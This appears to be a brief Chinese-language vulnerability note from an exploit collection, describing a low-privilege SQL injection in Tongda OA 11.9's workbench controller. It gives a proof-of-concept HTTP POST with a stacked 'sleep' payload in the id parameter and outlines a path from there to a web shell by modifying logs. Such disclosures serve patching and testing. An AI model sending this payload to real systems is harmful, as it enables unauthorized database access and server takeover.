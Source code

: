 # 通达OA11.9 低权限SQL注入漏洞

利用条件：任意一个用户PHPSESSID  后台堆叠注入 -> 修改日志getshell

\general\appbuilder\modules\portal\controllers\WorkbenchController.php:

![](images/16158605326396.jpg)

**PoC：**

```
POST /general/appbuilder/web/portal/workbench/upsharestatus HTTP/1.1
Host:
...

uid=5&status=1&id=2;select sleep(3)
```

ref：

catw0rld